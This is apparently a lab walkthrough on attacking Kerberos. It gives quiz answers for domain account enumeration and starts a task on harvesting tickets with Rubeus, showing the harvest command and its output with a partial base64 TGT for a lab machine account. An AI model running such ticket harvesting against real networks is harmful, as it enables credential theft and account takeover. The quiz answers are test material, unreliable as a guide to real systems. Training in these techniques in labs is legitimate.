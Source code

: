 ##   Answer the questions below

**How many total users do we enumerate?**

- 10

**What is the SQL service account name?**

- sqlservice

**What is the second "machine" account name?**

- machine2

**What is the third "user" account name?**

- user3

* * * 

## Task 3 - Harvesting & Brute-Forcing Tickets w/ Rubeus 

##  Harvesting Tickets w/ Rubeus 

1. Have Rubeus Comlined and on the target machine
2. ``cd Downloads`` - Navigate to the directory 
3. ``Rubeus.exe harvest /interval:30`` - Tells rubeus to harvest for TGTs every 30 seconds

```shell
controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe harvest /interval:30

   ______        _                       
  (_____ \      | |                                   
   _____) )_   _| |__  _____ _   _  ___               
  |  __  /| | | |  _ \| ___ | | | |/___)              
  | |  \ \| |_| | |_) ) ____| |_| |___ |              
  |_|   |_|____/|____/|_____)____/(___/               
                                                      
  v1.5.0                                              
                                                      
[*] Action: TGT Harvesting (with auto-renewal)        
[*] Monitoring every 30 seconds for new TGTs          
[*] Displaying the working TGT cache every 30 seconds 


[*] Refreshing TGT ticket cache (6/20/2022 11:51:18 AM) 

  User                  :  CONTROLLER-1$@CONTROLLER.LOCAL                                                
  StartTime             :  6/20/2022 11:26:37 AM                                                         
  EndTime               :  6/20/2022 9:26:37 PM                                                          
  RenewTill             :  6/27/2022 11:26:37 AM                                                         
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable               
  Base64EncodedTicket   :                                                                                
                                                                                                         
    doIFhDCCBYCgAwIBBaEDAgEWooIEeDCCBHRhggRwMIIEbKADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyiJTAjoAMCAQKhHDAaGwZr 
    cmJ0Z3QbEENPTlRST0xMRVIuTE9DQUyjggQoMIIEJKADAgESoQMCAQKiggQWBIIEEjTlK3cJIXALbz0AP/5+JKkMuwRXYj9pEwsw 
```